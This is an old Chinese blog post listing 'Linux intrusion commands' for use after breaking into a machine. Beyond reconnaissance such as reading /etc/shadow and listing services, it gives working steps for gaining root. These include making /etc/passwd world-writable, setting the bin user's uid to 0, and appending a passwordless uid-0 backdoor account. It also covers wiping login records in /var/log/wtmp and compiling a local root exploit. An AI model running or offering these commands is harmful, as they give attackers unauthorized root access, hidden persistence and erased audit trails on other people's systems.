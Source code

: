 --- layout: post title: linux入侵常用命令 date:
'2014-01-09T13:10:00.001+08:00' author: Wenh Q tags: modified\_time:
'2014-01-09T13:10:53.611+08:00' blogger\_id:
tag:blogger.com,1999:blog-4961947611491238191.post-4749376341673506728
blogger\_orig\_url:
http://binaryware.blogspot.com/2014/01/linux\_8419.html ---
在linux系统的学习使用中我们遇到很多命令，今天我们就学习一些常用[入侵](http://www.chinabyte.com/keyword/%E5%85%A5%E4%BE%B5/)命令，下面我们就进入正题。\
\
　　cat /etc/passwd 查看linux用户\
\
　　cat /etc/shadow 查看用户密码需要root权限\
\
　　cat /etc/sysconfig/network-scripts/ifcfg-ethn N代表网卡号
查看所在网卡的ip信息\
\
　　ifconfig 查看本机ip信息\
\
　　cat /etc/resolv.conf 查看DNS信息\
\
　　bash -i 在反弹的shell中使用可以直观显示命令\
\
　　bash prompt:
当你以普通限权用户身份进入的时候，一般你会有一个类似bash\$的prompt。当你以Root登陆时，你的prompt会变成\
\
　　bash\#。\
\
　　系统变量 : 试着echo "\$USER / \$EUID"
系统应该会告诉你它认为你是什么用户。\
\
　　echo 1\>/proc/sys/net/ipv4/if\_forward是不是你写错了,应该是echo
1\>/proc/sys/net/ipv4/ip\_forward,\
\
　　vim /proc/sys/net/ipv4/ip\_forward
吧,默认是0,也就是内核不进行数据包过滤,改为1
,让内核对数据包进行filter处理!\
\
　　netstat -an |grep LISTEN |grep :80 查看端口\
\
　　service --status-all | grep running\
\
　　service --status-all | grep http\
\
　　查看运行服务\
\
　　lsb\_release -a 查看系统版本\
\
　　重启[ssh](http://www.chinabyte.com/keyword/SSH/)服务
：/usr/sbin/sshd stop\
\
　　/usr/sbin/sshd start\
\
　　ssd\_config文件里\
\
　　PasswordAuthentication no,\
\
　　将其改为\
\
　　PasswordAuthentication yes\
\
　　远程ssh才可登录\
\
　　否则显示Access denied\
\
　　其中Usepam
yes可能用来建立pam方式login，比如从其它linux主机ssh到服务端，如果关闭，则不能打开.\
\
　　su的菜鸟用法\
\
　　先chomod 777 /etc/passwd\
\
　　然后修改bin用户的gid和uid为0\
\
　　然后passwd设置bin的密码\
\
　　然后cp /bin/bash /sbin/nologin\
\
　　然后su的时候su - bin就可以到rootshell了。\
\
　　这个原理就是当ssh不允许root用ssh终端登陆的时候，我们又不知道root密码，的一种很菜鸟的做法\
\
　　还可以这样\
\
　　sed -i s/bin:x:1:1/bin:x:0:1/g /etc/passwd\
\
　　gcc prtcl2.c –o local –static –Wall\
\
　　echo "nosec:x:0:0::/:/bin/sh" \>\> /etc/passwd\
\
　　echo "nosec::-1:-1:-1:-1:-1:-1:500" \>\> /etc/shadow\
\
　　清空last记录 cp /dev/null /var/log/wtmp\
\
　　-----\
\
　　dd if=/dev/zero of=yourfile bs=10M count=10
建立一个100m的大文件在利用Linux Kernel \<= 2.6.17.4 (proc) Local Root
Exploit提权的时候要用到的\

